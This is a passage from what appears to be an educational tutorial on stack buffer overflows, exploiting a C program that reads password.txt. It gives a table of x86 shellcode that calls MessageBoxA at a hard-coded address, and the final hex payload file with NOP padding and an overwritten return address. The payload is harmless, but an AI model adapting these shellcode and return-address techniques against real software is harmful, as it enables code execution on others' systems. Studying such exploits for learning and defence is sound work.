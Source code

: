 ```c
        printf("ERROR!");
    }
    else
    {
        printf("OK!");
    }
    fclose(fp);
}

```

##### Analysis (ExpStd0103)

> Objective: To implant code to implement a popup MessageBox during program validation

- Necessary information
  - Array start address: `0x0012FAF0` (also the start address of ShellCode execution)
  - MessageBoxA address: `0x77D507EC`
  - Hexadecimal text: `4D6F656F6D75` (Moeomuoo)
- The machine code composed of

| Machine code(HEX) | Assembly code | Comments |
| -- | -- | --|
| 33DB | XOR EBX, EBX | Clear EBX to ensure there are no zeros in ShellCode (as of character)
| 53 | PUSH EBX | \0` at the end of the string
| 68 6D756F6F | PUSH 6F6F756D | Press in text byte muoo(0x6D756F6F)
| 68 4D6F656F | PUSH 6F656F4D | press in text byte moeo(0x4D6F656F)
| 8BC4 | MOV EAX, ESP | ESP stack top point to string Moeomuoo, hand over to EAX
| 53 | PUSH EBX | MB_OK
| 50 | PUSH EAX | Message
| 50 | PUSH EAX | Caption
| 53 | PUSH EBX | Handle
| B8 EC07D577 | MOV EAX, 0x77D507EC | Hard-code MessageBoxA's address into EAX
| FFD0 | CALL EAX | Call MessageBoxA

- Write the machine code to password.txt in order
  - Bytes 53-56 are filled with the return address (the start address of the Buffer), and the rest of the bytes are filled with 0x90
- The only imperfection is that the program crashes and quits

> Here is the final password.txt

```c
33 DB 53 68 6D 75 6F 6F  68 4D 6F 65 6F 8B C4 53
50 50 53 B8 EC 07 D5 77  FF D0 90 90 90 90 90 90
90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90
90 90 90 90 F0 FA 12 00
```

---

## Summary

This article discusses how to exploit buffer overflow vulnerabilities and the writing of ShellCode, but the shortcomings are hard-coded addresses and stack space shifts  
These issues are discussed in the next article
